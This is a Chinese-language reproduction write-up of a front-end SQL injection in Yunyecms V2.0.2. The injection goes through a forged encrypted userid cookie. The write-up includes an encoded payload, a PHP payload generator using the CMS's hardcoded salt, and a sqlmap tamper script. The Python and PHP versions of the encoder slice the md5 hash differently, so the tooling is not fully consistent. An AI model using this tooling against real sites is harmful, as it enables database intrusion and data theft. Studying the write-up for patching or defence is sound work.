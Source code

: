 Yunyecms V2.0.2 前台注入漏洞（二）
==================================

一、漏洞简介
------------

云业CMS内容管理系统是由云业信息科技开发的一款专门用于中小企业网站建设的PHP开源CMS，可用来快速建设一个品牌官网(PC，手机，微信都能访问)，后台功能强大，安全稳定，操作简单。

二、漏洞影响
------------

yunyecms 2.0.2

三、复现过程
------------

问题出现在前台`me***.php`文件中，自定义表单customform中的userid从cookie中获取，截取一段数据包可以看到cookie的userid如下：

![](./.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId24.png)

经过了加密处理，根据解密算法**yunyecms\_strdecode**可以在corefun.php找到对应的加解密算法

![](./.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId25.png)

因为cookie里的userid可控因此我们根据算法流程我们可以在cookie中伪造userid值。还是用刚刚以上截取的userid测试。

![](./.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId26.png)

可以看到真实的userid为9。构造一个SQL注入，生成如下payload：

![](./.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId27.png)

    YmM0OWM5ZWY1ODk5ZGRkNzM0T1NjZ1lXNWtJSE5zWldWd0tEVXA4ZDdlNzk5NTliNDQyYTI1ZDE0ZWUzODZmZDI4MzY5OTM0YQ==

payload生成代码front-test.php为：

    <?php
    function yunyecms_strencode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
        return base64_encode(substr(md5($salt),8,18).base64_encode($string).substr(sha1($salt),0,35));
    }
    function yunyecms_strdecode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
        $retstr=base64_decode($string);
        $SHA1salt=substr(sha1($salt),0,35);
        $md5salt=substr(md5($salt),8,18);
        $retstr=substr($retstr,strlen($md5salt));
        $retstr=substr($retstr,0,(strlen($retstr)-strlen($SHA1salt)));
        return base64_decode($retstr);
    }
    if ($_GET['cookie']) {
        $string=$_GET['cookie'];
        $userid=yunyecms_strdecode($string);
        echo $userid;
    }
    if($_GET['userid']){
        $string=$_GET['userid'];
        $cookie=yunyecms_strencode($string);
        echo $cookie;
    }

继续追溯可控的userid,可以看到userid经过步骤`3->4->5`传递到了pagelist函数中

![](./.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId28.png)

跟入pagelist函数，将\$where拼接到了sql查询语句中\$sqlcnt,然后交给了前几次SQL注入都出现的SQL查询函数**GetCount**中。

![](./.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId29.png)

详细查看下该函数，直接进行了sql查询。

![](./.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId30.png)

附上截

![](./.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId31.png)

手工有点麻烦，又想丢入sqlmap怎么办，由于userid经过了加密和编码处理，于是根据算法流程写一个tamper就可以很好的解决了，

![](./.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId32.png)

对应tamper的的脚本为

    yunyecms_front_sqli_tamp.py
    #!/usr/bin/env python

    """
    Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
    See the file 'LICENSE' for copying permission
    """

    import base64
    import hashlib
    from lib.core.enums import PRIORITY
    from lib.core.settings import UNICODE_ENCODING

    __priority__ = PRIORITY.LOW

    def dependencies():
        pass

    def md5(data):
        hash_md5 = hashlib.md5(data)
        md5data=hash_md5.hexdigest()[8:18]
        return md5data
    def sha1(data):
        string_sha1=hashlib.sha1(data).hexdigest()[0:35]
        return string_sha1

    def yunyecms_strencode(string):
        salt='~^y#u%n$y^e*c%m^s^~'
        return base64.b64encode(md5(salt)+base64.b64encode(string)+sha1(salt))
    def tamper(payload, **kwargs):
        """
        Base64-encodes all characters in a given payload

        >>> tamper("1' AND SLEEP(5)#")
        'MScgQU5EIFNMRUVQKDUpIw=='
        """

        return yunyecms_strencode(payload) if payload else payload
